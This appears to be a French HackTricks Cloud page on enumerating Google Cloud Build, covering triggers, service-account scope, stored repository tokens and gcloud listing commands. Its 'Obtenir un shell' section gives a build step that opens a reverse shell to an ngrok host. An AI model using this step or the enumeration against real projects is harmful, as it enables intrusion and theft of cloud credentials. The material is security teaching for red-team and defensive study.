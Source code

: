 # GCP - Enumération de Cloud Build

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise la construction de logiciels** et les processus de publication, s'intégrant aux **dépôts de code source** et prenant en charge une large gamme de langages de programmation. Il permet aux développeurs de **construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque Déclencheur Cloud Build est **lié à un Dépôt Cloud ou connecté directement à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai pas trouvé de moyen de voler le jeton Github/Bitbucket à partir d'ici ou des Dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accessible par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Pousser vers une branche** : Spécifiez la branche
* **Pousser une nouvelle étiquette** : Spécifiez l'étiquette
* **Demande de tirage** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement de webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Généralement : `/cloudbuild.yaml`
* Seule option pouvant être spécifiée "en ligne" dans la console web et dans l'interface en ligne de commande
* Option la plus courante
* Pertinente pour un accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Autorisations SA

Le **Compte de service a la portée `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<num-projet>@cloudbuild.gserviceaccount.com` sera **utilisé.**

Par défaut, aucune autorisation n'est donnée mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour les exécutions de construction** (désactivé par défaut).

### Connexions & Dépôts

Les connexions peuvent être créées via :

* **GitHub :** Il affichera une invite OAuth demandant des autorisations pour **obtenir un jeton Github** qui sera stocké dans le **Gestionnaire de secrets.**
* **GitHub Enterprise :** Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet en tant que secret du **Gestionnaire de secrets.**
* **GitLab / Enterprise :** Vous devez **fournir le jeton d'accès API et le jeton d'accès API de lecture** qui seront stockés dans le **Gestionnaire de secrets.**

Une fois une connexion générée, vous pouvez l'utiliser pour **lier les dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés de cette manière ne sont **disponibles que dans les Déclencheurs utilisant la 2e génération.**
{% endhint %}

### Connecter un Dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** façons d'**accéder à un dépôt Github ou Bitbucket** mais **ne génère pas un objet de connexion, mais génère un objet de dépôt (de 1re génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build **générera un nouveau stockage pour stocker les fichiers du déclencheur**. Cela se produit par exemple dans l'exemple que GCP propose avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de stockage appelé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un fichier `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Installez gcloud à l'intérieur de Cloud Build :
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Énumération

Vous pourriez trouver des **informations sensibles dans les configurations de construction et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
